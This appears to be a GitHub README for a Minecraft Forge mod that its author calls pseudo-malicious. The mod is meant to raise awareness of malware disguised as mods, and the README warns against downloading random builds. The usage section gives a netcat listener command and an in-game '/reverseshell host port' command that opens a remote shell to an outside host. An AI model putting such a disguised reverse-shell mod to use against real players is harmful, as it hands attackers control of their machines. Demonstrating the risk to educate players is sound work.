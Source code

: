 ## Description
Это псевдовредоносный Minecraft мод с декларируемыми пейлоадами, целью которого является демонстрация вредоносной активности под прикрытием мода и повышения осведомленности игроков. Не скачиваете случайные сборки :)  

## Mod install
1. Install minecaft 1.7.10 and with Minecraft Forge 10.13.4.1614-1.7.10
2. Download jar file from release and place it in ```mods/``` folder.

## Usage
### reverse shell

```$> nc -lvnp targetPport``` in your console

```/reverseshell targetHost targetHort``` chat command

## Forge Dev Environment installation 
\# TODO :)

## Resources
* https://minecraft.fandom.com/ru/wiki/%D0%A1%D0%BE%D0%B7%D0%B4%D0%B0%D0%BD%D0%B8%D0%B5_%D0%BC%D0%BE%D0%B4%D0%B8%D1%84%D0%B8%D0%BA%D0%B0%D1%86%D0%B8%D0%B9_%D1%81_%D0%BF%D0%BE%D0%BC%D0%BE%D1%89%D1%8C%D1%8E_Forge/1.7%2B
* https://forum.mcmodding.ru/tags/1710/
* https://mcmodding.ru/1.7.10/preparation/install/